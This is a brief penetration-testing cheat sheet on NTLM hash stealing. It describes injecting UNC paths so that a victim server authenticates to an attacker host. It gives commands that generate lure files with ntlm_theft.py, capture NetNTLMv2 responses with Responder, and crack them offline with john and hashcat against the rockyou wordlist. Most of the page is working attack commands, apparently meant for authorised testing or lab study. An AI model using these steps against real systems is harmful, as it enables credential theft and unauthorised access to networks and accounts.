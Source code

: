 ```yaml
---
label: NTLM Hash Stealing
---
```


# NTLM Hash Stealing

The trick is to force victim server to auth attempt with attacker host. [Check out places to steal NT hash](https://hacktricks.boitatech.com.br/windows/ntlm/places-to-steal-ntlm-creds). In general, wherever an [UNC Path](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) can be injected it's possible to have NTLM hash stealing vulnerability.  

The [_ntlm\_theft.py_](https://github.com/Greenwolf/ntlm_theft) script is used to generate multiple files to steal NTLM response. These files can be uploaded wherever it's possible to execute them (e.g. an SMB share).

```bash
# Generate all files
python ntlm_theft.py -s $responder_ip -f $filename -g all
# Upload file and execute it from the victim machine

# Grab all NTLM responses
responder -I $net_interface
```

The captured NT hashes can then be cracked offline. However, these are not the hashes that can be used in a Pass-The-Hash type of attack.

NetNTLMv2 hash cracking:

```bash
# Quick
john -w /usr/share/wordlists/rockyou.txt $hash

# Common variations
hashcat -m 5600 $hash /usr/share/wordlists/rockyou.txt --force --rules /usr/share/hashcat/rules/best64.rule
```
